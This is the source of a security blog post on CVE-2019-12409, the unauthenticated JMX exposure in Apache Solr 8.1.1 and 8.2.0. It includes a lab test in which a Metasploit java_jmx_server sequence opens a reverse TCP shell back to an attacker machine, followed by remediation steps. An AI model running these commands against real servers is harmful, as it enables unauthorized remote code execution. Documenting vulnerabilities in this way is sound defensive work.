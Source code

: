 ```yaml
---
layout: post
comments: true
categories: posts
title: CVE-2019-12409 Apache Solr RCE
subtitle: The 8.1.1 and 8.2.0 releases of Apache Solr
featured-image: /images/header/header_001.jpg
tags: [vulnerability]
date-string: DECEMBER 02, 2019
---
```

<script src="//ajax.googleapis.com/ajax/libs/jquery/1.9.1/jquery.min.js"></script>
<script>window.jQuery || document.write('<script src="_/js/libs/jquery-1.9.1.min.js"><\/script>')</script>

### Description
The 8.1.1 and 8.2.0 releases of Apache Solr contain an insecure setting for the ENABLE_REMOTE_JMX_OPTS configuration option in the default solr.in.sh configuration file shipping with Solr. If you use the default solr.in.sh file from the affected releases, then JMX monitoring will be enabled and exposed on RMI_PORT (default=18983), without any authentication. If this port is opened for inbound traffic in your firewall, then anyone with network access to your Solr nodes will be able to access JMX, which may in turn allow them to upload malicious code for execution on the Solr server.

> **CVE ID : CVE-2019-12409**
> VCSS 3.X Severity and Metrics: 
> - NIST : NVD
> - Base Score : 9.8 CRITICAL
> - Vector : CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

### Testing Vulnerability 
Attacker :Kali linux (192.168.46.130)<br>
Victim : Ubuntu 16.04.6 LTS (192.168.46.137) -> Docker_apache solr 8.1.1 (172.17.0.3)
<br>
- Configure/start the metasploit module "java_jmx_server". 
'''
msf > use exploit/multi/misc/java_jmx_server
msf > set RHOSTS 192.168.46.137
msf > set RPORT 18983
msf > set LHOST 192.168.46.130
msf > set LPORT 9999
msf > set payload java/shell/reverse_tcp
msf > run
'''
<br>
<center>
    <div class="photoset-grid-custom" data-layout="122">
        <img src="/images/2019-12-02/2019-12-02-vul-001.jpg">
        <img src="/images/2019-12-02/2019-12-02-vul-002.jpg">
        <img src="/images/2019-12-02/2019-12-02-vul-003.jpg">
		<img src="/images/2019-12-02/2019-12-02-vul-004.jpg">
        <img src="/images/2019-12-02/2019-12-02-vul-005.jpg">
    </div>
</center>

### Solution
On November 18, Apache Solr revised the originally reported bug report after it was found that the flaw could lead to RCE. In addition, the Changelog highlighted this flaw as one of the fixes in Apache Solr version 8.3.
Per the security advisory, this vulnerability can also be remediated by setting the ENABLE_REMOTE_JMX_OPTS parameter to ’false’ in the solr.in.sh file. The change can be confirmed by ensuring the com.sun.management.jmxremote* properties are not listed in the Solr Admin interface under the Java Properties section.
<br>
<script src="/assets/js/jquery.photoset-grid.js"></script>

<script type="text/javascript">
    $('.photoset-grid-custom').photosetGrid({
    // Set the gutter between columns and rows
    gutter: '5px',
  
    // Wrap the images in links
    highresLinks: true,
  
    // Asign a common rel attribute
    rel: 'print-gallery',

    onInit: function(){},
    
    onComplete: function(){
        // Show the grid after it renders
        $('.photoset-grid-custom').attr('style', '');
    }
});
</script>

### References
---
- https://blog.alyac.co.kr/2631
- https://www.youtube.com/watch?v=KZtR6rYFG-E
- http://www.shangdixinxi.com/detail-1161011.html
- https://github.com/mogwaisec/mjet
- http://vulsee.com/archives/vulsee_2019/1119_9471.html
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12409
- https://nvd.nist.gov/vuln/detail/CVE-2019-12409#vulnCurrentDescriptionTitle

---
{% if page.comments %}
<div id="post-disqus" class="container">
{% include disqus.html %}
</div>
{% endif %}
